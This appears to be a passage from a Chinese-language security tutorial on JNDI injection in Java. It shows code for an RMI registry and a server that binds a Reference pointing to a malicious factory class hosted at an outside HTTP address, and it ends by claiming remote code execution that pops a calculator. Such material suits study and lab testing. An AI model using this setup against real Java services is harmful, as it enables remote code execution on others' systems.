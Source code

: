 



### 三、JNDI：

#### 1、JNDI简介：

JNDI 是 Java 提供的一种接口，用于统一访问命名和目录服务。它支持多种协议，例如 LDAP、RMI、DNS 等。

(1) 通过 `InitialContext`，可以从远程服务加载对象并实例化。

(2) 查找和绑定：

**查找（Lookup）**: 从命名上下文中获取对象。

**绑定（Bind/Rebind）**: 将对象绑定到一个名称。



#### 2、JNDI注入：

##### 1、 RMI + JNDI：

(1) 首先启动 RMIServer服务：

```java
public class RMIServer {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        RemoteObjImpl remoteObj = new RemoteObjImpl();
        Registry registry = LocateRegistry.createRegistry(1888);
        registry.bind("remoteObj", remoteObj);
    }
}
```



(2) 接着启动 JNDI_RMIServer，将 reference对象绑定到 rmi服务中：

```java
public class JDNI_RMIServer {
    public static void main(String[] args) throws NamingException {
        InitialContext initialContext = new InitialContext();
        //创建Reference对象，恶意类可以使用yakit进行构造
        Reference reference = new Reference("ObFZSwUr", "ObFZSwUr", "http://192.168.43.95:8085/");
        //将Reference对象绑定到rmi服务上
        initialContext.rebind("rmi://localhost:1888/remoteObj", reference);
    }
}
```

ObFZSwUr - 第一个参数：目标类名称，即需要加载/实例化的类

ObFZSwUr - 第二个参数：表示工厂类的名称。工厂类负责根据 JNDI 的查询创建或返回目标对象实例

http://192.168.43.95:8085/ - 第三个参数：加载工厂类的url （通常使用yakit）



(3) 最后运行 JNDI_RMIClient服务端，成功RCE弹出计算器：

